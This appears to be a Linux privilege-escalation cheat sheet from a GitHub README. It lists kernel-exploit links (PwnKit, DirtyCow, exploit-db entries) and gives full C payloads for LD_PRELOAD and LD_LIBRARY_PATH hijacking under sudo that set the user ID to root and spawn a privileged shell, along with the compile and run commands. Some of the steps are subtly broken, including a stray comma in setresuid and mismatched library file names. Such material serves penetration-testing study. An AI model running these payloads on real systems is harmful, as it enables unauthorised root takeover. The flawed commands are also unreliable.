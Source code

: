 If a file owner is root but the directory owner is regular user, we can change the replace the contents of the file using echo "content" > rootownedfile

## Kernel Exploits (Use GCC or CC)
```
uname -a
cat /proc/version
cat /etc/lsb-release
cat /etc/os-release
gcc exp.c -o exp.shot exp.exe
add -w, -static, -pthread (if pthread error occurs)
searchsploit "name with version"
```

PwnKit - https://github.com/ly4k/PwnKit

DirtyCow - https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

Overlayfs - https://www.exploit-db.com/exploits/37292

https://www.exploit-db.com/exploits/45010 - linux kernel < 4.13.9

Linux Kernel 2.6.22 < 3.9 - https://www.exploit-db.com/exploits/40839

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) = 18411.c

Linux Kernel < 4.4.0-116 (Ubuntu16.04.4) - https://www.exploit-db.com/exploits/44298

## Sudo -L
- GTFO BINS
- look for env eg : if LD_Preload is present,
create a env.c file with below contents,
```env.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0,);
	system("/bin/bash -p");
}
```

```
gcc -fPIC -shared -o /tmp/env env.c -nostartfiles
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
- lookforenveg:LD_LIBRARY_PATH  
- look for shared libraries on the listed programs/binaries on sudo -l ldd binaryname (look for the listed library names)  
create a library_path.c file
```library_path.c
#include <stdio.h>
#include <stdlib.h>

static void hijack()__attribute__((constructor));

void hijack(){
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
run this code 
```
gcc -o /tmp/lib.so -shared -fPIC library_path.c
sudo LD_LIBRARY_PATH=/tmp binaryname
```